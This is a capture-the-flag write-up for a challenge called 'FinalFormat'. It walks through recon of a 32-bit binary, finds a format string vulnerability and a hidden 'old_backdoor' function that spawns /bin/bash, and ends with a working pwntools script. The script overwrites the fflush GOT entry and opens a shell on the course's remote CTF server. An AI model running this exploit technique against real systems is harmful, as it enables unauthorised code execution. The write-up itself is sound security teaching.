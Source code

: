 # FinalFormat

## Recon

In this challenge, we are given an executable that we must analyze and exploit.

### Protections

Executing `checksec program`, we get the following output:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

This gives us some important pieces of information:

1. The executable's architecture is 32 bits and little-endian.
2. Partial RELRO is enabled. 
3. Stack canaries are enabled.
4. NX is enabled and, therefore, we won't be able to execute code from the stack, for instance.
5. PIE is disabled.

Partial RELRO means that the GOT comes before the BSS section in memory. This means that buffer overflows in global variables can't overwrite the GOT, however, it can still be changed.

With stack canaries enabled, we can only perform ROP attacks if we manage to leak the stack canary beforehand.

### Testing the program

By running the executable, we are prompted with the message "There is nothing to see here...".
If we, however, type something in and hit ENTER, what we typed in will be printed back.

![Normal execution of the program](/images/final-format/testing-vulnerabilities/1.png)

That means that our input is being read to a buffer and printed back. Therefore, we decided to test the possibility of a buffer overflow.
We found that the buffer is, most likely, not susceptible to buffer overflows since we typed in 110 characters, only 60 were printed back and no stack smashing was detected (due to the stack canaries).

![Testing for the possibility of a buffer overflow](/images/final-format/testing-vulnerabilities/2.png)

With buffer overflows out of the way, we tried format string vulnerabilities. Also, the challenge is named Final**Format** so it was very likely that the exploit would be based on format string vulnerabilities.

![Testing for the possibility of a format string vulnerability](/images/final-format/testing-vulnerabilities/3.png)

It worked! This is very good since, with a format string vulnerability, we are able to write to arbitrary addresses in memory. This, in conjunction with a Partial RELRO and no PIE (meaning that the base address of the GOT in execution is the same as when `readelf` is run), means that we can overwrite the addresses in the GOT very easily and, thus, when a libc function is called, jump to an arbitrary address in memory and execute that code instead. 

### Symbols

At this point, we can execute any piece of code already on the executable (can't be on the stack because of NX).
However, we don't have any piece of code that can give us a shell.

If we execute `readelf -s program`, we get the following output:

```
Symbol table '.symtab' contains 74 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    ...
    23: 0804bff8     0 SECTION LOCAL  DEFAULT   23 .got
    24: 0804c000     0 SECTION LOCAL  DEFAULT   24 .got.plt
    ...
    51: 08049236    55 FUNC    GLOBAL DEFAULT   15 old_backdoor
    ...
    69: 0804926d   155 FUNC    GLOBAL DEFAULT   15 main
    ...
```

As you can see, we have the symbol `main`, which is expected. Then, we have the GOT and the GOT PLT (Procedure Linkage Table) sections at `0x0804bff8` and `0x0804c000` respectively. Finally, we have a suspicious function named `old_backdoor`, located at `0x08049236`.

Using `objdump --disassemble=old_backdoor program`, we can get the assembly code of `old_backdoor`.

```asm
08049236 <old_backdoor>:
 8049236:	f3 0f 1e fb          	endbr32
 804923a:	55                   	push   %ebp
 804923b:	89 e5                	mov    %esp,%ebp
 804923d:	53                   	push   %ebx
 804923e:	e8 2d ff ff ff       	call   8049170 <__x86.get_pc_thunk.bx>
 8049243:	81 c3 bd 2d 00 00    	add    $0x2dbd,%ebx
 8049249:	8d 83 08 e0 ff ff    	lea    -0x1ff8(%ebx),%eax
 804924f:	50                   	push   %eax
 8049250:	e8 8b fe ff ff       	call   80490e0 <puts@plt>
 8049255:	83 c4 04             	add    $0x4,%esp
 8049258:	8d 83 1b e0 ff ff    	lea    -0x1fe5(%ebx),%eax
 804925e:	50                   	push   %eax
 804925f:	e8 8c fe ff ff       	call   80490f0 <system@plt>
 8049264:	83 c4 04             	add    $0x4,%esp
 8049267:	90                   	nop
 8049268:	8b 5d fc             	mov    -0x4(%ebp),%ebx
 804926b:	c9                   	leave
 804926c:	c3                   	ret
```

As we can see, a string is printed and then a command is executed using `system`. If the command is a `/bin/sh` or something along those lines, this means that we can jump to this function in our attack to get our shell.

### Debugging

To get more information about `old_backdoor`, we'll use `gdb`, along with `gef` (a popular GDB plugin).

We will start the debugging session using `gdb program` and set a breakpoint on `main` using `b main`. After that, we'll execute the program by executing `run` inside the debug session.

![Program running inside debug session](/images/final-format/debug/1.png)

Then, we will set a breakpoint on and jump to `old_backdoor`, using `b old_backdoor` followed by `jump old_backdoor`.

![Program running old_backdoor](/images/final-format/debug/2.png)

We will now step using `ni` until we get to the `system` call.

![Stack when system is about to be executed](/images/final-format/debug/3.png)

As you can see from the stack view, the argument for this system call is `/bin/bash`, meaning that this method can be used to get a shell on the server.

Now that we know what `old_backdoor` does, we can start figuring out what address in the GOT we need to overwrite to jump to `old_backdoor`. For that, we'll restart the debug session, set a breakpoint on `main` and `run` the program.

Then, we will skip to the `printf` where our message is printed, which is located at `0x80492d4`.

![Program when printf is about to be executed](/images/final-format/debug/4.png)

Here, we will step using `ni` until we find a `call` instruction that jumps to the `plt` section (the functions in this section use the addresses from the GOT to see if the corresponding function has already been loaded and, if it has, it will jump to the address present in the GOT).

That call will be a call to `fflush@plt` at `0x80492e5`.

![Program when fflush@plt is about to be executed](/images/final-format/debug/5.png)

Here, we want to go inside the function and, as such, we'll execute `si`.

![Disassembled code inside fflush@plt](/images/final-format/debug/6.png)

As you can see, `fflush@plt`'s second instruction is `jmp    DWORD PTR ds:0x804c010`, meaning that it will jump to the address placed at `0x804c010`. That address is `0xf7dda2c0`, which is the address of libc's `fflush`. Finally, the address `0x804c010`is located in the GOT, meaning that we can overwrite it with the address of `old_backdoor`, making `fflush@plt` jump to `old_backdoor` instead of libc's implementation of `fflush`.

![GOT at the location referenced by fflush@plt](/images/final-format/debug/7.png)

## Exploitation

In order to overwrite the GOT, we can use the `FmtStr` utility in pwntools, which allows us to specify a dictionary where the keys are the addresses we want to write to and the values are the bytes we want to write to those addresses. The result is a format string which, when printed, executes those writes.

With all the information we got previously in mind, we developed the following exploit: 

```py
from pwn import *

def exec_format(payload):
    p = process("./program")
    p.recvuntil(b'...')
    p.sendline(payload)
    output = p.recvall()
    p.kill()
    return output

context.binary = "./program"

elf = ELF("./program")
fflush_ptr = elf.got["fflush"]
backdoor_addr = elf.symbols["old_backdoor"]

print("fflush_addr:", hex(fflush_ptr))
print("backdoor_addr:", hex(backdoor_addr))

autofmt = FmtStr(exec_format)
offset = autofmt.offset

writes = { fflush_ptr: backdoor_addr }
print(f"Writes: {writes}")

payload = fmtstr_payload(offset, writes)
print("Payload:", payload)
print("Payload length:", len(payload))

p = remote("ctf-fsi.fe.up.pt", 4007)
p.recvuntil(b'...')
p.sendline(payload)
p.interactive()
```

To get the flag, run this script and then execute `cat flag.txt`.

![Exploit being executed](/images/final-format/exploit.png)
